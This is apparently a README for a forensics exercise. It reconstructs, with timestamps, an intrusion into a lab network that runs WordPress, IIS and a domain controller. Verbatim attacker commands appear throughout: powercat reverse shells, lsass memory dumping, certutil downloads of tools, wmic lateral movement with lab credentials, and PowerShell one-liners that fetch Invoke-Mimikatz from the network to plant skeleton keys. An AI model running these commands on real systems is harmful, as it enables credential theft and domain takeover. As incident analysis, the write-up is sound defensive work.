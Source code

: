 # T5-fornesis

by asef18766(陳兆閔) and YingMuo(彭建霖)

## how attack
* ubuntu wordpress web server : ```CVE-2019-9978``` to get webshell and ```sqlmap``` to get wropress admin account

* windows IIS server : ```CVE-2020-0688``` (awaiting to determinate) attack and create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)

* windows dc server : in IIS server execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```) and use Minikatz to get dc's admin 's account and password (/user:TEAMT5\Administrator /password:admin12345!!!) and connect by IIS server

## Horizon move
* ubuntu -> IIS : post bt.ext and nt.exe by tunnel

* IIS -> dc : create process ipconfig.exe via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```

## timeline


## fornesis result
### windows IIS server
* 2020/8/4 AM 08:42:33 CVE-2020-0688 (awaiting to determinate)
```
c:\windows\system32\inetsrv\w3wp.exe -ap "ASP.NET v4.0" -v "v4.0" -l "webengine4.dll" -a \\.\pipe\iisipm127dc09c-653d-45f2-8d87-b91abf5fdbce -h "C:\inetpub\temp\apppools\ASP.NET v4.0\ASP.NET v4.0.config" -w "" -m 0 -t 20
```
* 2020/8/4 AM 08:48:26 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` with role ```SYSTEM```

* 2020/8/4 AM 08:51:25 execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```)

* 2020/8/4 AM 09:12:51 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/nt.exe nt.exe``` to download ```nt.exe``` from ubuntu server

* 2020/8/4 AM 09:13 execute ```nt.exe``` with various parameter
    * -help
    * /h

* 2020/8/4 AM 09:16:02 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/bt.exe bt.exe``` to download ```bt.exe``` from ubuntu server

* 2020/8/4 AM 09:16:29 execute ```bt.exe 192.168.1.0/24``` in ```C:\Users\Public\Music\```

* 2020/8/5 AM 07:34:16 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88```

* 2020/8/5 AM 08:58:20 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.2.165```

* 2020/8/5 AM 09:07:15 download string from ```http://10.20.2.206/test.txt``` as ```test.aspx```


* 2020/8/5 PM 10:07:07 create [aspx webshell](https://raw.githubusercontent.com/tennc/webshell/master/aspx/AspxSpy2014Final.aspx) at ```inetpub/wwwroot/UmbracoCms/Umbraco```

* 2020/8/5 PM 10:25:34 RPC ```192.168.1.4``` via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```


* 2020/8/5 PM 10:26:13 invoke Mimikatz via ```c:\windows\system32\cmd.exe" /c wmic process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'\"``` to create password skeleton key

* 2020/8/5 PM 10:26:25 invoke Mimikatz via ```wmic  process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'\""``` to modify ```lsass.exe```

* 2020/8/5 PM 10:27:32 ```"c:\windows\system32\cmd.exe" /c net use z: \\WIN-LN8SES7K1Q5\C$ /user:TEAMT5\Administrator mimikatz```

### ubuntu wordpress web server
* 03/Aug/2020:09:38:35, ```CVE-2019-9978``` and post shell, ```bt.exe```, ```nt.exe``` by ```10.20.3.131```

* 04/Aug/2020:08:49:26, start to ```sqlmap``` by ```10.20.2.227```

* 04/Aug/2020:09:16:31, tunnel (npv) start

* 04/Aug/2020:09:42:07, use tunnel scan internet

* 04/Aug/2020:09:45:56, login wordpress with admin account by ```10.20.2.165```

* 04/Aug/2020:10:23:15, use tunnel request ```http://192.168.1.3/Umbraco/aaaa.aspx``` it's old webshell

* 04/Aug/2020:22:15:48, use tunnel request ```http://192.168.1.2/admine21_decode.php``` I don't know what it mean

* 04/Aug/2020:23:04:21, use tunnel request ```http://192.168.1.3/umbraco/AspxSpy2014Final.aspx``` it's webshell

* 04/Aug/2020:23:07:16, use tunnel request ```http://192.168.1.3/umbraco/bbbb.aspx``` it's webshell

### windows dc server
* 2020/08/04:09:23:44, invoke Mimikatz via ```cmd.exe /Q /c IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" 1> \\127.0.0.1\ADMIN$\__1596450222.629457 2>&1``` by ```WIN-LN8SES7K1Q5$```

* 2020/08/04:09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ```

* 2020/08/04:09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ```

* 2020/08/04:09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ```

* 2020/08/04:09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ```

* 2020/08/05:22:25:34, exec ipconfig.exe by ```TEAMT5\Administrator```